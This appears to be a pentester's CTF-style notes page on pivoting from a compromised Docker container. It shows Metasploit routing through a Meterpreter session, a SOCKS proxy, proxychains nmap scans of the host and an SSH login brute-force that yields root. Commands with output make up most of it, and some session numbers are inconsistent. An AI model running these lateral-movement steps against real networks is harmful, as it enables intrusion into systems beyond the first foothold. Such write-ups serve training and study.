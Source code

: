 --- ---

<h2>Command</h2>
Since most of the docker or normal machine might not have the essential tools running on their system. It might be more convinient to simply proxy the target network on our attacking machine (from there we would be able to use our own tools to connect to different host on the internal network)

More information ---> [HERE](https://youtu.be/mZqNP2fOLlk?t=2509)


Routing the Service
```
# Discovered webserice_database IP
meterpreter > resolve webservice_database

Host resolutions
================

    Hostname             IP Address
    --------             ----------
    webservice_database  172.28.101.51

# Route it through the Meterpreter session
msf6 exploit(multi/php/ignition_laravel_debug_rce) > route add 172.28.101.51/32 2
[*] Route added
```

- website_databse             ---> Get this name from env or .env file in the docker, usualy located in var/www (webservice_database reffer to an internal ip address used has a database via internal DNS (webserver communicate with this IP/webservice_database in this case))
- /32                                    ---> Subnet specification (Generally speaking, `/32` means that the network has only a single IPv4 address and all traffic will go directly between the device with that IPv4 address and the default gateway. The device would not be able to communicate with other devices on the local subnet.)
- 2                                         ---> Meterpreter Session of the target machine


Routing Machine
```
msf6 exploit(multi/php/ignition_laravel_debug_rce) > route add 172.17.0.1/32 2
[*] Route added
```

- /32                                    ---> Subnet specification (Generally speaking, `/32` means that the network has only a single IPv4 address and all traffic will go directly between the device with that IPv4 address and the default gateway. The device would not be able to communicate with other devices on the local subnet.)
- 172.17.0.1                           ---> Potential Target (Since we know we are in a docker environment, we know that there is a main machine running all those dockers (Here we guest that this address is the main target machine that we really want to compromise))
- 2                                      ---> Meterpreter Session of the target machine


Check the routing settings
```
msf6 exploit(multi/php/ignition_laravel_debug_rce) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.17.0.1         255.255.255.255    Session 3
   172.28.101.51      255.255.255.255    Session 3


[*] There are currently no IPv6 routes defined.
```


Setup Sock Proxy
```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 1.

[*] Starting the SOCKS proxy server
```


Using the target machine (From Normal Terminal --> Ubuntu Terminal)
```
# From the attacker’s host machine, we can use curl with the internal Docker IP to show that the web application is running, and the socks proxy works

$ curl --proxy socks5://127.0.0.1:1080 http://172.17.0.1

… etc …

# From the attacker’s host machine, we can use ProxyChains to scan the compromised host machine for common ports (YOU NEED TO CHANGE etc/proxychains.conf and add the 127.0.0.1 and the port set in the proxy module in metasploit (1080))

$ proxychains nmap -sV -sC -sT -Pn -F 172.17.0.1 -p 22,80,443,5432
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-24 08:48 EDT
Nmap scan report for 172.17.0.1
Host is up (0.069s latency).

PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
443/tcp  closed https
5432/tcp closed postgresql

Nmap done: 1 IP address (1 host up) scanned in 0.31 seconds
```

-sT -Pn -F                        ---> Need to include those element to assure that the nmap will work great trougth the proxy


SSH login (Optinal)
```
msf6 auxiliary(server/socks_proxy) > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > run ssh://santa_username_here:santa_password_here@172.17.0.1

[*] 172.17.0.1:22 - Starting bruteforce
[+] 172.17.0.1:22 - Success: 'santa_username_here:santa_password_here' 'uid=0(root) gid=0(root) groups=0(root) Linux hostname 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 4 opened (10.11.8.17-10.10.152.194:55634 -> 172.17.0.1:22) at 2022-11-22 02:49:43 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf6 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         shell cmd/unix                                   10.11.8.17:4444 -> 10.10.152.194:44140 (10.10.152.194)
  2         meterpreter x86/linux  www-data @ 172.28.101.50  10.11.8.17:4433 -> 10.10.152.194:33312 (172.28.101.50)
  3         shell linux            SSH kali @                10.11.8.17-10.10.152.194:55632 -> 172.17.0.1:22 (172.17.0.1)

msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i -1
[*] Starting interaction with 3...